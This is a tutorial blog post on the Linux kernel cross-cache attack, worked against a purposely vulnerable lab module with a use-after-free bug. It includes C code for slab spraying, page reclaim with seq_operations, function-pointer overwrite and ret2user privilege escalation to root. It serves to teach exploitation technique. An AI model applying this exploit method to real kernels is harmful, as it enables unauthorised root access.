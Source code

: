 ```yaml
---
title: Linux Kernel Exploitation - Cross Cache Attack
date: 2025-04-27
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain the cross-cache attack — a fundamental technique for advanced Linux kernel exploitation. Understanding this technique is important to understand other exploitation techniques, such as Dirty PageTable and DirtyCred, which I will cover in future posts. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/cross-cache-attack) beforehand.

## Analysis
The vulnerable LKM provides three commands: `CMD_ALLOC`, `CMD_WRITE`, and `CMD_FREE`. These commands are used to allocate, write to, and free objects defined as follows:

```c
#define OBJ_SIZE    0x200

struct obj {
    char buf[OBJ_SIZE];
};
```

Note that `CMD_ALLOC` and `CMD_FREE` internally use `kmem_cache_zalloc` and `kmem_cache_free`, respectively.
It means a dedicated cache is used for managing these objects:

```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}

static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```

The cache is created in `module_initialize`:

```c
static int __init module_initialize(void) {
    if (misc_register(&vuln_dev) != 0) {
        return -1;
    }
    obj_cachep = KMEM_CACHE(obj, 0);
    if (!obj_cachep) {
        return -1;
    }
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]` - a refence to freed memory region - is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF vulnerability. Since we already have a write primitive, it's natural to think about overlapping freed objects with some useful kernel objects, like `seq_operations` or `tty_struct`, to overwrite function pointers and control RIP.

However, we cannot simply do it, since the objects are allocated from a dedicated cache. This is where the cross cache attack comes in.

## Cross Cache Attack
> We focus only on cross cache attacks in UAF scenarios and ignore OOB cases here.
{: .prompt-warning }

The main idea of the cross cache attack is to turn a dangling reference to an object into a dangling reference to its underlying pages. As you know, kernel objects are allocated from slab caches consists of one or more slabs. Each slab is consits of 2^order pages (see `/sys/kernel/slab/<CACHE_NAME>/order`) and contains `objs_per_slab` objects (see `/sys/kernel/slab/<CACHE_NAME>/objs_per_slab`). 

When all objects in a slab are freed, underlying pages are returned to the buddy allocator if the fllowing aditional conditions are met:
- The slab is not the active slab
- The per-cpu partial slab list is full

This technique is extremely powerful. By using it, we can ideally overlap victim objects with arbitrary kernel objects, and it has been used in many real-world kernel exploitations.

## Exploitation
First, we allocate `objs_per_slabs * (cpu_partial + 1)` objects to prepare `cpu_partial + 1` slabs, which will later be used to fill the per-cpu slab list:
```c
int objs_per_slab = 8;
int cpu_partial = 52;
int num_sprary = objs_per_slab * (cpu_partial + 1);

for (int i = 0; i < num_sprary; i++) {
    obj_alloc(i);
}
```
Second, we allocate one object to create a new active slab.
```c
obj_alloc(num_sprary);
```
Third, we free the objects in the slabs obtained in step 1 to fill the per-cpu partial slab list and release the underlying order-0 pages. To increase the reliability, we only free all objects in even-numbered slabs. This is because if continuous pages are freed, the buddy allocator will merge them and treat them as higher-order pages, which makes it more difficult to reclaim them later.
```c
for (int i = 0; i < num_sprary; i += objs_per_slab) {
    if (i % (objs_per_slab * 2) == 0) {
        for (int j = i; j < i + objs_per_slab; j++) {
            obj_free(j);
        }
    } else {
        obj_free(i);
    }
}
```
Fourth, we allocate a large number of `seq_operations` and make the order-0 pages freed in step 3 be used as the kmalloc-32 slabs. Since kmalloc-32 also uses order-0 pages, the attack has a high chance of success.
```c
int seqfds[0x20];
for (int i = 0; i < 0x20; i++) {
    seqfds[i] = open("/proc/self/stat", O_RDONLY);
    assert(seqfds[i] >= 0);
}
```
Finally, we use `CMD_WRITE` to overwrite function pointers in `seq_operations` and control RIP. Since SMAP, SMEP, KASLR, and KPTI are disabled, we can easily escalate privileges via ret2user:
```c
char payload[0x8];
*(unsigned long *)&payload = (unsigned long)escalate_privilege;

for (int i = 0; i < num_sprary; i += objs_per_slab) {
    if (i % (objs_per_slab * 2) == 0) {
        obj_write(i, payload, 0x8);
    }
}

for (int i = 0; i < 0x20; i++) {
    read(seqfds[i], payload, 1);
}
```
By running this exploit, you can achive root privilege and see the flag:
![win](/assets/img/posts/2025-04-27-1/win.png)

## References
1. Awarau and pql. 2022. CVE-2022-29582. https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/#crossing-the-cache-boundary
2. Imran Khan. 2022. Linux SLUB Allocator Internals and Debugging, Part 1 of 4. https://blogs.oracle.com/linux/post/linux-slub-allocator-internals-and-debugging-1
